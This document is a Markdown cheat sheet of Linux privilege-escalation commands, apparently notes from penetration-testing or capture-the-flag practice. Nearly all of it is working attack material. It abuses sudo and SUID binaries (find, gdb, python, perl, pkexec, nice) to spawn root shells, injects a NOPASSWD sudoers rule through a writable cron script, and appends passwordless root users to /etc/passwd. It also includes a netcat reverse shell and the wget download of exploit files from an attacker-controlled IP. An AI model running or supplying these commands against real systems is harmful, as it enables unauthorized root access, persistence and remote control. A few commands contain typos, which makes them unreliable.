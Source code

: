 [gtfobins](https://gtfobins.github.io/)
- __Finding SUID__
  - __`find / -perm -4000 2>/dev/null`__
  
- __`find / -writable -type f 2>/dev/null`__

- __`sudo -l`__
  - __If you see this output `(root) NOPASSWD:/usr/bin/find`__
    - __`sudo find . -exec /bin/sh \; -quit` or without sudo also you can run__

- __Check for cronjob__
  - __It is used to execute file every 1m or 5m__
  - __`cat /etc/crontab`__
    - __for exame it's look like this `*/5 * * * * root /writable/script.sh` so here the `script.sh` will execute every 5m__
    - __you can inject this command echo `user ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers`__

- __using netcat__
  - __`nc <ip> <port > -e /bin/sh`__

- __creating a new user__
  - __`echo "newRoot::0:0:newRoot:/home/newRoot:/bin/sh" >> /etc/passwd`__
  - __`echo 'root2::0:0:root:/root:/bin/bash' | sudo tee -a /etc/passwd`__
 

- ## Privilege escalation <a name="privilegeescalation"></a>

- __`python3 -c 'import os; os.system("/bin/bash")'`__
- 
- `find /  -perm -u=s -type f 2>/dev/null``` to see the permission`
- Use ```linpeas``` if you are not getting any escalation
  - download the script from the github
- If It was running on Linux Kernel 4.4.0–31-generic and Ubuntu 14.04.5 LTS. use below command
  - ```wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh```
  - ```chmod +x linux-exploit-suggester.sh``` and ```./linux-exploit-suggester.sh```
  - you will get some CVE, select any one CVE in that download URL will be there using that link you can download scripts
  - ```wget (download URL in CVE)``` download the file in your system
  - run ```sudo python -m http.server 80```
  - download the file in the target system `wget http://<myip>/<filename>`
  - example: wget http://192.168.45.161/root.cpp
 
  
 - ```bash -p```
   
- if you find ```/usr/bin/python2.7``` in sudo -l
  - then use the below command it will give you the root privilege
  - ```/usr/bin/python2.7 -c 'import os; os.setuid(0); os.system("/bin/bash")'```
 
- if you find ```/usr/bin/gbd``` in sudo -l
  - then use the below command it will give you the root privilege
  - ```/usr/bin/gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit```
 

- if you find ```/usr/bin/pkexec``` in ```sudo -l``` 
  - then use the below command it will give you the root privilege
  - ```sudo pkexec /bin/bash```

- if you find ```/usr/bin/mtr``` in ```sudo -l``` 
  - then use the below command it will give you the root privilege
  - ```LFILE=/root/proof.txt```
  - ```sudo mtr --raw -F "$LFILE"```

- if you find ```/usr/bin/time``` in ```sudo -l``` 
  - then use the below command it will give you the root privilege
  - ```sudo /usr/bin/time /bin/bash```

- if you find ```(ALL : ALL) /bin/nice /notes/*``` in ```sudo -l```
  - it shows that you can run all the files in the /notes directory with /bin/nice binary.
  - so create a script letsgetroot.sh which executes /bin/bash and gave the necessary permissions.
  - ```echo "/bin/bash" >> letsgetroot.sh``` save the file in any directory
  - ```sudo /bin/nice /notes/../home/user/letsgetroot.sh``` it will give the root access.


- if you find ```(ALL : ALL) NOPASSWD: /usr/bin/perl``` in ```sudo -l```
  - then use the below command it will give you the root privilege
  - ```sudo perl -e 'exec "/bin/bash";'```
